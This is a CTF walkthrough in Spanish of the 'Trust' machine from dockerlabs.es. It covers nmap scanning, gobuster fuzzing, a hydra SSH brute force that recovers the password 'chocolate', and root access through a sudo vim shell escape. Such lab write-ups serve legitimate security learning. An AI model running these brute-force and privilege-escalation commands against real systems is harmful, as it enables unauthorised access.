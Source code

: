 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "Trust".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh trust.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.18.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene 2 puertos abiertos:
```
Discovered open port 80/tcp on 172.18.0.2
Discovered open port 22/tcp on 172.18.0.2
```
En este caso, empezaremos por el puerto 80 ya que no tenemos ningun usuario ni nada, por lo que es conveniente ver si en la pagina, existe alguna informacion "util".
Para ello, introducimos la IP en el navegador y vemos una pagina "normal" de Apache.
Presionando "CTRL + U" no se ve nada aparentemente util en el codigo, por lo que procederemos a hacer un poco de FUZZING WEB:
```
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x .php,.html,.py
```
Se ve que hay una pagina que a primera vista parece interesante que es "/secret.php", por lo que entraremos en ella a ver que encontramos.
```
	===============================================================
	Starting gobuster in directory enumeration mode
	===============================================================
	/index.html           (Status: 200) [Size: 10701]
	/.html                (Status: 403) [Size: 275]
	/.php                 (Status: 403) [Size: 275]
	/secret.php           (Status: 200) [Size: 927]
	/.html                (Status: 403) [Size: 275]
	/.php                 (Status: 403) [Size: 275]
	/server-status        (Status: 403) [Size: 275]
	Progress: 830572 / 830576 (100.00%)
	===============================================================
	Finished
	===============================================================
```
Vemos un "cartel" en la pagina que pone:
```
Hola Mario,
Esta web no se puede hackear.
```
Bien, vemos que hay un usuario al menos que se llama "Mario", por lo que probaremos con HYDRA a hacer un ataque de fuerza bruta para conseguir la contraseña de dicho usuario. Probaremos a hacer el ataque al protocolo "SSH", ya que si recordamos cuando pasamos NMAP, estaba tambien abierto el puerto 22 (SSH).
```
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2
```
Una vez ha acabado, nos encuentra lo siguiente:
```
[DATA] attacking ssh://172.18.0.2:22/
[22][ssh] host: 172.18.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
```
Perfecto, nos ha encontrado la contraseña del usuario "Mario", por lo que ahora vamos a probar a atacar el puerto 22 escribiendo:
```
ssh mario@172.18.0.2
```
Nos preguntara si queremos guardar la "fingerprint" a lo que damos que "yes". Despues nos pedira la clave que hemos sacado con HYDRA y tras ello, estariamos ya dentro de la maquina victima.
Tocaria ahora hacer una ESCALADA DE PRIVILEGIOS, para ello, escribiriamos por ejemplo, "sudo -l" y tras introducir la clave que nos pide (ya que la hemos obtenido con HYDRA), vemos que nos dice que este usuario "Mario", tiene permisos de "root" con el "vim":
```
Matching Defaults entries for mario on 8b6f2fd507aa:
    env_reset, mail_badpass,    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User mario may run the following commands on 8b6f2fd507aa:
    (ALL) /usr/bin/vim   <==== Aqui se ve que podemos usar "vim" como "root"
```
Entonces nos vamos a la pagina: "gtfobins.github.io" y buscamos el binario "vim", y en su apartado "SUDO" (recordar que hemos entrado con "sudo -l"), vemos que podemos ejecutar varios comandos. En este caso, yo escogere el apartado "a)" e introducire lo siguiente:
```
sudo vim -c ':!/bin/sh'
```
y ya estaria. Ya tendriamos permisos de root:
```
# whoami
root
# 
```
No obstante, para dejarlo mas "bonito" y tener prompt mas "normal", escribiriamos el comando "bash -p" quedandonos de la siguiente forma:
```
# whoami
root
# bash -p
root@8b6f2fd507aa:/home/mario# whoami
root
root@8b6f2fd507aa:/home/mario# 
```
Y ahora si, ya habriamos completado la intrusion de la maquina "Trust" de "dockerlabs.es" :)
